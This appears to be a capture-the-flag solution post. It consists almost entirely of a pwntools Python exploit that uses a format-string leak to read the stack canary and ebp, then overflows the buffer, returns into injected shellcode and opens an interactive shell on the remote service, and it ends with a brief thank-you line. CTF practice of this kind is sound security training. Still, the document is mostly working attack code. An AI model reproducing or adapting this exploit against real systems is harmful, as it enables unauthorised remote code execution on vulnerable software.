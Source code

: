 ```python
r = remote(HOST, PORT)

r.recvuntil("echo back:")
log.info("leaking canary & ebp...")
r.send(".%26$p.%29$p")
resp = r.recv(1024)
resp = r.recv(1024)

canary = int(resp.split(".")[1], 16)
ebp = int(resp.split(".")[2], 16)
buf = ebp - 0x9c + 6 + 8

log.success("canary: " + hex(canary))
log.success("ebp: " + hex(ebp))
log.success("buf: " + hex(buf))

r.recvuntil("echo back: ")

canary |= 0x41 # remove the null byte first
payload = "%122c" # padding to canary
payload += p32(canary)
payload += "A"*28 # padding to return address
payload += p32(buf) # return address set to buffer's address (=shellcode)
payload += p32(4) # fd

log.info("sending payload...")
r.send(payload)

r.recvuntil("echo back: ")
payload = "%122c" # add the null byte back into the canary
log.info("correcting canary...")
r.send(payload)

r.recvuntil("echo back: ")
log.info("sending shellcode...")
r.send(shellcode)

r.recvuntil("echo back: ")
r.send("exit\n")

r.interactive()

```

Great challenge, learn a lot from it!